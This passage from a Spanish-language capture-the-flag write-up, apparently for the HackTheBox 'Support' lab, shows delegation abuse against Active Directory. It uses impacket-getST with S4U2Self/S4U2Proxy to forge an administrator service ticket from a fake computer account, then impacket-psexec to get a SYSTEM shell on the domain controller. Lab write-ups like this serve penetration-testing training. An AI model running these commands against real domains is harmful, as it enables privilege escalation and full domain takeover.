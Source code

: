 Ahora todo está listo para `abusar` del `Constrained Delegation` mediante una query `S4U2Self` y obtener un `Service Ticket` suplantado del ordenador objetivo

```
# impacket-getST -spn cifs/dc.support.htb -impersonate administrator -dc-ip 10.129.230.181 support.htb/fakecomputer$:password   
Impacket v0.12.0.dev1+20240816.161125.5d881ece - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
```

Necesitamos `añadir` esta `variable` de `entorno`

```
# export KRB5CCNAME=`pwd`/administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
```

A continuación `ejecutamos` el comando `klist`, si no lo tenemos instalado podemos hacer `sudo apt install krb5-user`

```
# klist
Ticket cache: FILE:/home/justice-reaper/Downloads/administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
Default principal: administrator@support.htb

Valid starting     Expires            Service principal
08/21/24 13:59:01  08/21/24 23:59:00  cifs/dc.support.htb@SUPPORT.HTB
	renew until 08/22/24 13:59:00
```

Nos `conectamos` usando `psexec`

```
# impacket-psexec -k dc.support.htb             
Impacket v0.12.0.dev1+20240816.161125.5d881ece - Copyright 2023 Fortra

[*] Requesting shares on dc.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file ncEyrRiR.exe
[*] Opening SVCManager on dc.support.htb.....
[*] Creating service hwOZ on dc.support.htb.....
[*] Starting service hwOZ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
